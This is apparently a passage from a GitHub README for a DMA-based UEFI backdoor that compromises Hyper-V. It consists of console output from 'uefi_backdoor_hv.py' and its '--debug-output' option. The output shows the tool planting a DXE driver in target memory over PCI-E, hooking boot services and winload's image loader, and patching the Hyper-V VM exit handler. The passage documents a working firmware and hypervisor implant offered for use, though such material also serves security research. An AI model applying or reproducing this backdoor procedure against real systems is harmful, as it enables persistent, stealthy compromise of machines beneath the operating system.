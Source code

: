 ```
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x2c20
Backdoor entry RVA is 0xbd4
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0bd4
3.611646 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for Hyper-V load...
[+] Hyper-V image was loaded

    Hyper-V image base: 0xfffff8072d690000
           Image entry: 0xfffff8072d901360
       VM exit handler: 0xfffff8072d8add90

[+] DONE
```

UEFI DXE driver of Hyper-V backdoor is also displaying its debug messages on the screen. In addition, you can use `--debug-output` option of `uefi_backdoor_hv.py` to read this debug messages from the target system physical memory and print them into the stdout:

```
$ ./uefi_backdoor_hv.py --debug-output
[+] PCI-E link with target is up
[+] Debug output buffer address is 0x79db3000

DmaBackdoorHv.c(1018) : ******************************
DmaBackdoorHv.c(1019) :
DmaBackdoorHv.c(1020) :   Hyper-V backdoor loaded!
DmaBackdoorHv.c(1021) :
DmaBackdoorHv.c(1022) : ******************************
DmaBackdoorHv.c(1055) : Image address is 0xc0000
DmaBackdoorHv.c(275) : BackdoorImageRealocate(): image size = 0x3260
DmaBackdoorHv.c(1065) : Resident code base address is 0x79daf000
DmaBackdoorHv.c(794) : Protocol notify handler is at 0x79daf364
DmaBackdoorHv.c(819) : BackdoorEntryResident()
DmaBackdoorHv.c(830) : OpenProtocol() hook was set, handler = 0x79db1477
DmaBackdoorHv.c(835) : ExitBootServices() hook was set, handler = 0x79db1487
DmaBackdoorHv.c(447) : winload.dll is at 0x8ee000
DmaBackdoorHv.c(448) : winload!BlLdrLoadImage() is at 0x984a10
DmaBackdoorHv.c(477) : 535 free bytes found at the end of the code section at 0xa4ade9
DmaBackdoorHv.c(527) : winload!BlLdrLoadImage() hook was set, handler is at 0x79daf50c
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\mcupdate_GenuineIntel.dll"
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\hvix64.exe"
HyperV.c(369) : HyperVHook(): Hyper-V image is at 0xfffff80144e0d000
HyperV.c(388) : HyperVHook(): Resources section RVA is 0x1400000 (0x200000 bytes)
HyperV.c(425) : HyperVHook(): Code section RVA is 0x200000
HyperV.c(604) : HyperVHook(): Hyper-V VM exit handler is at 0xfffff8014502ad90
HyperV.c(605) : HyperVHook(): Backdoor code size is 684 bytes
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\kdstub.dll"
DmaBackdoorHv.c(350) : new_BlLdrLoadImage(): Path = "\WINDOWS\system32\hv.exe"
DmaBackdoorHv.c(560) : new_ExitBootServices() called
```
